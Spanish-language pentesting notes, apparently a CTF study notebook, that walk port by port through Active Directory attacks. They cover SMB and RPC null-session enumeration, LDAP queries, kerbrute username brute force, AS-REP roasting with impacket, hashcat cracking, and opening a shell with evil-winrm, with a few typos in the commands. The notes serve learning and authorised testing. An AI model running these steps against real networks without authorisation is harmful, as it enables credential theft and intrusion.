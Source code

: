 ![[Pasted image 20230219172405.png]]

---

- ### Enumerar puerto 445 (default) ( #SMB ) 

```shell
crackmapexec smb {taget_ip}
# Obtener información de la maquina victima, esto puede devolvernos el nombre de la maquina, dominios, version de windows, etc (Dominios al /etc/hosts)
crackmapexec smb {target_ip0} --shares
# Intentar enumerar recursos compartidos a nivel de red
smbmap -H {target_ip} -u "null"
# Otra alternativa para intentar enumerar recursos compartidos a nivel de red y como no tenemos credenciales especificando -u "null" o no poniendo esto estamos intentando hacerlo con una null sesion.
smbclient -L {target_ip} -N
# Otra alternatica para de nuevo intentar enumerar recursos compartidos a nivel de red, -N (Null sesion)
```

- ### Puerto 135 (default) ( msrpc / #RPC )

```shell
rpcclient -U "" {target_ip} -N
# Si nos devuelve "rpcclient $>" podriamos intentar enumerar usuarios (enumdomusers) del DA para intentar realizar ataques como "AS-REP Roast" 
rpcclient -U "user%password" {target_ip} -N
# Esto con "rpcclient $> enumdomusers" devolveria por ejemplo algo como:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
# Devuelve a los usuarios junto a su rid
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
# Devuelve los grupos junto a su rid 
rpcclient $> querygroupmem {rid} 0x200
rid:[0x1f4] attr:[0x7]
# Esto devuelve todos los usuarios pertenecientes a dicho grupo
rpcclient $> queryuser {rid} 0x1f4
# Esto devuelve los datos del usuario consultado 
rpcclient $> querydispinfo
# Devuelve las descripciones de los grupos 
```

**Descripción:** Un ataque AS-REP Roast es un tipo de ataque de seguridad informático contra el protocolo Kerberos. Este ataque se acontece cuando uno de los Usuarios del Dominio tiene seteado el Atributo **UF_DONT_REQ_PREAUTH** lo que le permite solicitar un TGT a Kerberos (KDC) sin necesidad de proporcionar contraseña. En este mismo TGT se encuentra el Hash NTLMv2 del usuario en cuestion, que luego podriamos intentar crackear con fuerza bruta para obtener la contraseña del usuario.

- ### Puerto 389 (default) ( #LDAP ) 

```shell
ldapsearch -H "ldap://{target_ip}" -x -s base namingcontexts
# Enumerar servicio ldap, en este caso, namingcontexts
ldapsearch -H "ldap://{target_ip}" -x -b {naming_context}
# Enuimerar el servicio ldap
#################################################################################
namp -n -sV --script "ldap* and not brute" -p 389 {target_ip}
# Manera alternatica de enumerar el servicio ldap

```

- ##### Más enumeración de LDAP con ldap search en 
##### https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

- ### Puerto 88 (default) ( #KERBEROS )

###### Existen herramientas como kerbrute https://github.com/ropnop/kerbrute las cuales nos permiten hacer fuerza bruta hacia kerberos 
- ##### Flujo de interno de #Kerberos [[Kerberos_Authentication_Flow.canvas]]

##### Esto siempre puede ser enlazado con las enumeraciones anteriores, por ejemplo si al enumerar el #ldap vemos que se enumera un namingcontext que puede ser de un usuario como "Owen Bonoris" podriamos pensar de que este sea un usuario valido y comenzar a ingresar combinaciones posibles como usuario:

- owen.bonoris
- owenb
- bowen
- bonoris.o
- obonoris
- o.bonoris
- owen.b
- b.owen

##### etc.  Estas convinaciones podrian ser guardadas en un archivo, por ejemplo users.txt y de esta menera haciendo uso de kerbrute realizar fuerza burta

```shell
kerbrute userenum --dc {target_ip} -d {domain_name} users.txt
# Fuerza bruta al domain de nuestra maquina victima intentando enumerar usuarios validos de ldomain en base a una wordlists de usuarios
impacket-GetNPUsers {domain_name}/ -no-pass -usersfile users.txt
# Esto es para con unos ciertos usuarios probar conseguir el hash NetNTLMv2 pero tambien podria ser usado para fuerza bruta ya que devolveria en caso de conseguir un usuario existente un output diferente.
# Si el usuario no exsite [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database), si el usuario existe [-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set

```

##### Una vez que tuvieramos usuarios tambien podriamos pensar en un *AS-REP Roast Attack*  pero como kerbrute ya lo hace de manera interna, si no vemos en el output un hash quiere decir que el usuario no tiene configurado el *UF_DONT_REQUIRE_PREAUTH*, por lo que no podemos obtener el hash NetNTLMv2.

##### En caso de tener un hash, podriamos usar la herramienta "hashcat" para intentar romper el hash, para esto es importante saber el modo del hash al que nos enfrentamos, por ejemplo, si el hash que capturaramos fuede `$krb5asrep$23$user@domain.com:378sh129fsdf8sdf7...`  podriamos buscar con el comando hashcat --example-hashes y filtradon por el "krb5asrep" (`hashcat --example-hashes | grep -B 11 "krb5asrep"`) para poder conseguir asi el modo que sera utilizado posteriormente con la herramienta "hashcat"
#### `hashcat -m {hash_mode} -a {attack_mode} hash rockyou.txt`
##### Para obtener el hash mode, `hashcat --example-hashes` 

###### En caso de lograr crackear el hash NetNTLMv2, indicaria que podriamos tener credenciales validas, esto lo podemos corroborar con la herramienta "crackmapexec": 
##### (`crackmapexec smb {target_ip} -u {username} -p {password}`)
##### De esta manera, en caso de obtener un "[+]" indicaria de que las mismas son validas, aunque para poder obtener una shell interactiva buscamos que al usuario le aparezca un "Pwn3d!" para poder usar xexec y intentar ganar acceso al sistema, en caso de que no, podriamos en caso de tener el puerto 5985 ( #SSDP / #UPnP) (Servicio de administración remota de windows)
##### De manera que podriamos verificar si el usuario en cuestion pertenece al grupo "Remote Managment Users" los cuales pueden conectarse de manera remota:
##### (`crackmapexec winrm {target_ip} -u {username} -p {password}`)
##### En caso de obtener el glorioso "Pwn3d!", podriamos con herramientas como "evil-winrm",  entablar una consola remota.
##### `evil-winrm -i {target_ip} -u {username} -p {password}`

- ### Puerto 53 (default) ( #Domain )

##### Podriamos emitirs solicitudes DNS para ver si podemos aplicar un DNS zone transfer (AXFR) con la herramienta dig

```shell
dig @{target_ip} {domain_name} ns
# Emitir solicitudes para enumerar Name Servers
dig @{target_ip} {domain_name} mx 
# Emitir solicitudes para enumerar servidores de correo
dig @{target_ip} {domain_name} axfr
# Probar un DNS Zone Trasfer
```

- ### Puerto 5985 (default)

##### Puerto que suele correr el Servicio de administración remota de windows, el cual al estar activo, podria permitirnos posteriormente intentar con utilidades como crackmapexec, ver si un usuario con credenciales pertenece al grupo "Rmote Managament Users".